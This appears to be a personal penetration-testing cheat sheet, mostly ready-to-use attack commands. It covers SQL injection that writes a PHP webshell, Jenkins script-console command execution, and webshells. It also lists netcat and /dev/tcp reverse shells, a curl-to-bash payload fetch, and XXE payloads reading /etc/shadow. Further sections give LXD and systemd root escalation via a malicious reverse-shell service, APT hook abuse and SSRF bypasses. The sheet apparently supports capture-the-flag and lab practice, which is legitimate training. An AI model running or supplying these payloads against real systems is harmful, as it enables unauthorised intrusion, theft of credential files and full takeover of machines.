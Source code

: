 Commands for exploits
---

## SQL Injection

```
Finding out number of columns
---
1' order by <n>;#


Loading files
---
1' union select 1,2, load_file('/etc/passwd');#


Writing webshell
---
1' union select '<?php SYSTEM($_REQUEST[\"cmd\"]) ?>' INTO OUTFILE '/var/www/html/shell.php';# 
```

## Jenkins RCE

Go "Mangage Jenkins" -> "Script Console"

```
def proc = "cat root/flag.txt".execute();
def os = new StringBuffer();
proc.waitForProcessOutput(os, System.err);
println(os.toString());
```

## WEBSHELLS

Upload these on the server

```
php
---
<?php echo system($_REQUEST['cmd']);?>

shell stabilization
---
python3 -c "import pty;pty.spawn('/bin/bash');"

```

## NC REVERSE SHELLS

General nc commands for reverse shells

```
nc listen on attacker
---
nc -lnvp <port>


nc commands on victim (URL encode pls)
---
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <addr> <port> >/tmp/f
rm -f /tmp/p; mknod /tmp/p p && nc <addr> <port> 0/tmp/p
bash -c 'bash -i >& /dev/tcp/<addr>/<port> 0>&1' <--best


curl bash rev.sh
---
attacker: echo "bash -c 'bash -i >& /dev/tcp/<addr>/<port> 0>&1'" > rev.sh 
victime:  curl <host>:<port>/rev.sh | bash
```


## XML ATTACKS

```
LFI
---
<!--?xml version="1.0" ?-->
<!DOCTYPE replace [<!ENTITY ac SYSTEM "file:///etc/shadow"> ]>
                <bugreport>
                <title>&ac;</title>
                <cwe>a</cwe>
                <cvss>a</cvss>
                <reward>a</reward>
                </bugreport>

reading php files
---
<?xml  version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE replace [<!ENTITY ac SYSTEM "php://filter/read=convert.base64-encode/resource=/var/www/html/db.php">]>
                <bugreport>
                <title>&ac;</title>
                <cwe>a</cwe>
                <cvss>a</cvss>
                <reward>a</reward>
                </bugreport>
```

## PYTHON ATTACKS

```
eval
---
you can chain eval commands with a comma

eval("25+1,print('hello!')"

os.system
---
inject commands with $()

$(ls)
```

## ENV BINARY INJECTION

```
create our own binary, and prepend to PATH
scripts will now look for our binary and execute it
---
echo "commands" > /home/user/binary_name

export PATH=/home/user:$PATH
```

## Website enumeration

- using burpsuite
- go to the website using the proxy
- go the HTTP traffic
- add the request to scope

## LXC

```
1. get the image and build it
---
https://github.com/saghul/lxd-alpine-builder

2. bring the image over to the victim
---
python3 -m http.server

3.  import the image
---
lxc image import ./alpine-v3.13-x86_64-20210506_2203.tar.gz --alias privesc

4. mount the image with privileges, and run it
---
lxc init privesc privcontainer -c security.privileged=true
lxc config device add privcontainer mydevice disk source=/ path=/mnt/root recursive=true
lxc start privcontainer
lxc exec privcontainer /bin/sh

```

## BAD SERVICE

```
/dev/shm/root.service
---
[Unit]
Description=pwned

[Service]
Type=simple
User=root
ExecStart=/bin/bash -c 'bash -i >& /dev/tcp/<IP>/<PORT> 0>&1'

[Install]
WantedBy=multi-user.target
---


systemctl enable /dev/shm/root.service
systemctl start root.service
```

## APT run comamnds

```
run commands after apt update
---
$ echo "APT::Update::Pre-Invoke {'whoami'};" > 00command
$ mv 00command /etc/apt/apt.conf.d/00command
```


## SSRF

```
https://www.neuralegion.com/blog/ssrf-server-side-request-forgery/#ssrf-bypass


http://0177.0.0.1/ --> (127.0.0.1)
http://2130706433/ --> (127.0.0.1)
http://[::]/
http://0000::1:80/
http://127.1/
http://127.0.1/
http://0/

Play around with caps
```

## JWT

https://book.hacktricks.xyz/pentesting-web/hacking-jwt-json-web-tokens


